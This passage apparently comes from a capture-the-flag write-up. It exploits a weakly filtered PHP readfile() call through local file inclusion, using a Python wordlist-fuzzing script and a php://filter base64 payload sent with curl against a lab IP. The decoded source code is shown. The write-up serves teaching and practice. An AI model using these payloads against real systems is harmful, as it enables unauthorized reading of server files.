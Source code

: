 I route to `index.php` and found this script inside:

```php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

At the script above, it filtered the input parameters by removing the `../` characters and continue with `./` . After all, if the input could bypass the ******************sanitize****************** step, it will `readfile()` and return the content inside it.

Googling about ********LFI******** (local file inclusion). I would modify my script with this [wordlist](https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_linux.txt):

```python
import requests

url = "http://10.10.156.164/index.php?page="

wordlist = open("/home/kali/wordlists/file_inclusion_linux.txt", "r")

for param in wordlist:
	print(f"Sending: {param.strip()}")
	response = requests.get(url + param.strip())
	if len(response.text) != 0 and len(response.text) != 15757:
		print(f"Param: {param.strip()}")
		print(f"Response code: {response.status_code}")
		print(f"Length: {len(response.text)}")
		print(f"File Content: \n{response.text}")
		print("------------------------")
```

Unfortunately, this technique does not work as expect. Therefore, I use another technique called **********************PHP Filter**********************. First of all, I test with the previous result:

```tsx
┌──(kali㉿kali)-[~/wordlists]
└─$ curl http://10.10.174.11/index.php?page=php://filter/convert.base64-encode/resource=index.php | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   468  100   468    0     0   1252      0 --:--:-- --:--:-- --:--:--  1254
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
```